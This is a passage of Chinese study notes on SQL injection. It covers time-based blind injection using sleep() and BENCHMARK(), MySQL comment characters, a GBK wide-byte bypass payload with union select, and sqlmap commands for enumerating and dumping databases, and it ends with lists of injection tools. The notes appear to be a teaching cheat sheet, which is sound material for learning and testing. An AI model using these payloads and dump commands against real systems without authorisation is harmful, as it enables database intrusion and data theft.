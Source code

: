 #### 延时盲注

- 相对于bool盲注，就是把返回值0和1改为是否执行延时，**能用其他方法就不使用延时**。 
- 一般格式`if((bool),sleep(3),0)`和`or (case when (bool) then sleep(3) else 0 end)`
- 两个函数： 
- BENCHMARK(100000,MD5(1)) 
- sleep(5)
- BENCHMARK()用于测试函数的性能，参数一为次数，二为要执行的表达式。可以让函数执行若干次，返回结果比平时要长，通过时间长短的变化，判断语句是否执行成功。这是一种边信道攻击，在运行过程中占用大量的cpu资源。推荐使用sleep()

#### Mysql注释符

```sql
1. -- -
2. /* .... */
3. #
4. `
5. ;%00 
```

#### GBK绕过注入

- 在分号前加%df%27
- 示例：id=1%d%27 union select 1.2--+

10. 自动化注入工具

#### SQL注入工具

- sqlmap使用
  - 测试注入点  sqlmap  -u  "URL"
  - 爆数据库  sqlmap  -u  "URL"  --dbs
  - 查看当前库  sqlmap  -u  "URL"  --current -db
  - 显示数据表  sqlmap  -u  "URL"  -D 数据库 --tables
  - 显示字段      sqlmap  -u  "URL"  -D 数据库 -T 表  --columns
  - 脱库  sqlmap  -u  "URL"  -D 数据库 -T 表  -C "字段名1","字段名2"  --dump
  - 查看帮助   man  sqlmap
  - 查看注入点   sqlmap -r  1.txt 
  - 爆数据库   sqlmap -r  1.txt  --dbs    （注意在注入点后面加*）
  - 查看当前库  sqlmap  -r  1.txt  --current -db
  - 显示数据表   sqlmap   -r  1.txt   -D 数据库 --tables
  - 显示字段      sqlmap  -r  1.txt  -D 数据库 -T 表  --columns
  - 查看某字段数据  sqlmap  -r  1.txt  -D 数据库 -T 表  -C  “字段名，字段名”  --dump
- havij
- sqlid

#### ASP、JSP注入工具

- NBSI
- 阿D注入软件
- 明小子

#### PHP注入工具
